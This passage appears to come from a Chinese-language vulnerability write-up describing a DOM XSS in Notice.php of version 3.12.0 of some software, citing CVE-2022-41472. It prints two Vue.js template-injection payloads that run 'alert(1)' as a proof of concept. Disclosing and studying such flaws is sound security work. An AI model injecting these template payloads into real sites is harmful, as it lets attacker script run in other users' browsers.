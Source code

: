 ![pFsnD0O.png](assets/1710993004-02c76ac77c75745c81e2e4d81b0dfc1e.png)

### v3.12.0 XSS ｜Notice.php

漏洞信息：  
[CVE - CVE-2022-41472 (mitre.org)](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-41472)

Payload：  
利用 Vue.JS 特性实现 DOM XSS

```rb
{{$on.constructor('alert(1)')()}}
{{alert(1)}}
```

![pFsdlGt.png](assets/1710993004-978508a782e90ca769a8e3c99da355a2.png)
